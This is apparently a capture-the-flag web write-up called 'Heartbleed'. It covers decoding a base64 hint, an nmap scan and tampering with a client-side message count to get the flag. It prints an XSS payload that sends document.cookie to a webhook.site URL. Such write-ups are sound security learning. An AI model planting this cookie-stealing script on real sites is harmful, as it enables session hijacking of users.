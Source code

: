 ```yaml
---
title: heartbleed
description: web
---
```


# Heartbleed

Note: You may run these commands on one or two VMs.

if we open `<target>`.js, we get the following:

```
function callme() {
  console.log("UmVtZW1iZXIsIGEgc2VydmVyIHNob3VsZCBuZXZlciBibGluZGx5IHRydXN0IGNsaWVudHMnIGlucHV0IC0gZXZlbiBpZiB0aGUgaW5wdXQgaXMgZ2VuZXJhdGVkIGJ5IGEgc2NyaXB0Lg==");
}
```

```
document.getElementById('message').onkeyup = function () {
  message_count = this.value.length;
  document.getElementById("message_count").value = message_count;
  document.getElementById('count').innerHTML = message_count;
};
```

from base64 we get:
Remember, a server should never blindly trust clients' input - even if the input is generated by a script.

this neans we should find a backend and try to send it inputs.

Also we get a xss to show up using 

```
<script>alert(1)</script>
```

```
<script>
  var img = new Image();
  img.src = 'https://webhook.site/<url>?cookie=' + document.cookie;
</script>
```

and we get a get request.

However no luck from this as it is not a flag.

```
 nmap -sV -sC `<target>`.com
 ```

```
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
443/tcp  open  ssl/http Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
8080/tcp open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
8443/tcp open  ssl/http Cloudflare http proxy
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
|_http-server-header: cloudflare
|_http-title: Site doesn't have a title (text/plain; charset=UTF-8).
```

And it is behind a cloudflare, which I will not try to test.

None of these worked, but then I noticed there was a message count. I tried to change this value to something else and see what would happen. 

![alt text](/images/heartbleed/image-1.png)
![alt text](/images/heartbleed/image-2.png)

I found the flag by changing the value of this message count. 

